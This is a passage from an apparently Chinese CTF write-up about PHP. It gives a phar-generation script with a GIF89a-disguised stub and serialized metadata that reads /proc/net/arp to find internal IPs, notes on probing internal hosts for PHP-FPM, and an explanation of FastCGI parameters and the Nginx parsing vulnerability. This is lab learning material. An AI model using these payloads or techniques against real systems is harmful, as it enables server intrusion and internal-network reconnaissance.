     <?php
    class Easytest{
	    protected $test='1';
    }
    class Main{
    	public $url='file:///proc/net/arp';
    }
    $a=new Easytest();
    echo urlencode(serialize($a));
    $b=new Main();
    @unlink("phar.phar");
    $phar=new Phar("phar.phar");
    $phar->startBuffering(); 
    $phar->setStub('GIF89a'."<?php __HALT_COMPILER(); ?>"); 
    $phar->setMetadata($b); 
    $phar->addFromString("test.txt", "test");
    $phar->stopBuffering();
    ?>

第一个要注意的地方，这里etc/hosts没法读到内网ip，只能用/proc/net/arp
这里我读到的是10.0.199.2 然后具体哪个会回显PHP-FPM是要自己一个个试的 我试了3、4、5 都没有 然后直接试了11是可以的。

那么php-fpm是啥呢？跟着p牛的博客学习一下：https://www.leavesongs.com/PENETRATION/fastcgi-and-php-fpm.html

精简下内容方便查看：

FPM其实是一个fastcgi协议解析器，Nginx等服务器中间件将用户请求按照fastcgi的规则打包好通过TCP传给谁？其实就是传给FPM。

FPM按照fastcgi的协议将TCP流解析成真正的数据。

举个例子，用户访问http://127.0.0.1/index.php?a=1&b=2，如果web目录是/var/www/html，那么Nginx会将这个请求变成如下key-value对：

    {
    'GATEWAY_INTERFACE': 'FastCGI/1.0',
    'REQUEST_METHOD': 'GET',
    'SCRIPT_FILENAME': '/var/www/html/index.php',
    'SCRIPT_NAME': '/index.php',
    'QUERY_STRING': '?a=1&b=2',
    'REQUEST_URI': '/index.php?a=1&b=2',
    'DOCUMENT_ROOT': '/var/www/html',
    'SERVER_SOFTWARE': 'php/fcgiclient',
    'REMOTE_ADDR': '127.0.0.1',
    'REMOTE_PORT': '12345',
    'SERVER_ADDR': '127.0.0.1',
    'SERVER_PORT': '80',
    'SERVER_NAME': "localhost",
    'SERVER_PROTOCOL': 'HTTP/1.1'
    }

这个数组其实就是PHP中$_SERVER数组的一部分，也就是PHP里的环境变量。但环境变量的作用不仅是填充$_SERVER数组，也是告诉fpm：“我要执行哪个PHP文件”。

PHP-FPM拿到fastcgi的数据包后，进行解析，得到上述这些环境变量。然后，执行SCRIPT_FILENAME的值指向的PHP文件，也就是/var/www/html/index.php。

Nginx（IIS7）解析漏洞：fpm发现/var/www/html/favicon.ico/.php不存在，则去掉/.php，再判断/var/www/html/favicon.ico是否存在。显然这个文件是存在的，于是被作为PHP文件执行，导致解析漏洞。
